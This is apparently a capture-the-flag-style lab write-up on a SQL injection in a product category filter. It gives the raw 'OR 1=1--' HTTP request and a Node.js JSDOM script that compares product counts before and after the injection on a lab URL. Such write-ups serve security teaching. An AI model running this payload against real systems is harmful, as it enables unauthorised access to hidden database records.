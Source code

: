 ```yaml
---
description: >-
  In Lab One, we see a simple SQL injection vulnerability in a WHERE clause
  allowing for the retrieval of hidden data.
---
```


# 1 - Retrieve Hidden Data

### Notes

The SQLi exists in the `category` query parameter used by the product category filter feature:

```http
GET /filter?category=%27+OR+1=1-- HTTP/1.1
```

### Scripted Solution

```javascript
const { JSDOM } = require('jsdom')
require('dotenv').config({ path: './.env' })

/**
 * Run exploit.
 */
async function main() {
  const levelUrl = process.env.LEVEL_URL

  // Get number of products visible on lab home page
  console.log('Getting home page product count...')
  const homeDom = await JSDOM.fromURL(levelUrl)
  const homeProductNodes = homeDom.window.document.querySelectorAll(
    '.container-list-tiles div'
  )
  console.log(`Number of home page products: ${homeProductNodes.length}.`)

  // Get number of products after SQL injection exploit
  console.log('Performing SQLi and getting updated product count...')
  const SQLi = "'+OR+1=1--"
  const SQLiDom = await JSDOM.fromURL(`${levelUrl}/filter?category=${SQLi}`)
  const SQLiProductNodes = SQLiDom.window.document.querySelectorAll(
    '.container-list-tiles div'
  )
  console.log(`Number of home page products: ${SQLiProductNodes.length}.`)
}

main()
  .then(() => process.exit(0))
  .catch((error) => {
    console.error(error)
    process.exit(1)
  })
```
